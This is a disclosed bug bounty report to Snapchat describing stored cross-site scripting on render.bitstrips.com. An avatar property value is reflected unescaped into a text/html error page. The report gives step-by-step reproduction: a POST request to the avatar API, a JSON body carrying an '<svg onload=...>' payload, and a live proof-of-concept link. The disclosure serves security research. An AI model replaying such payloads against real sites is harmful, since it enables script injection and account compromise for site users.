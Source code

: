 # [render.bitstrips.com] Stored XSS via an incorrect avatar property value

## Report Details
- **Report ID**: 159878
- **URL**: https://hackerone.com/reports/159878
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-16T23:25:17.572Z
- **Disclosed**: 2017-01-04T08:38:41.609Z

## Reporter
- **Username**: s_p_q_r
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: snapchat

## Vulnerability Information
While modifying an avatar, an attacker has the opportunity to submit XSS payloads as its property values. The resulting png file will return a 500 error with the payload in the response body. The response has a **text/html** content type, which makes the XSS attack possible.

**PoC:**

1. Go to https://www.bitmoji.com/account/ and create a new account
2. Choose the avatar style and save it. The following POST request will be sent:

> POST /user/avatar?styles=1,4&app_id=13 HTTP/1.1
> Host: api.bitmoji.com
> 
> avatar_id=%id%&char_data=%data%

3\. Modify the **data** value: set any **pd2** object property value (for example, **jaw**) to **<svg onload=alert(document.domain)>**:

```
{"colours":{},"pd2":{"cranium":"cranium_midstraightmale","forehead":"forehead_standard","hair_back":"hair_back_midstraightmale","hair_front":"hair_front_midstraightmale","hairbottom":"hairbottom_blank","detail_L2_L":"_blank","detail_L2_R":"_blank","jaw":"<svg onload=alert(document.domain)>","beard":"_blank","stachin":"_blank","stachout":"_blank"},"body":{},"style":1}
```

and submit the request again.

4\. Go to your account and click "Edit yor avatar". In your browser web console you will see a https://render.bitstrips.com/render/***/*.png link with a 500 error. Open this link.

The script will be executed.

A PoC link: https://render.bitstrips.com/render/6688424/173752531_2_s1-v1.png

I also recorded a video (see the attachment) of these steps, I hope it will help you reproduce the issue.




## Attachments
- bit_poc.wmv
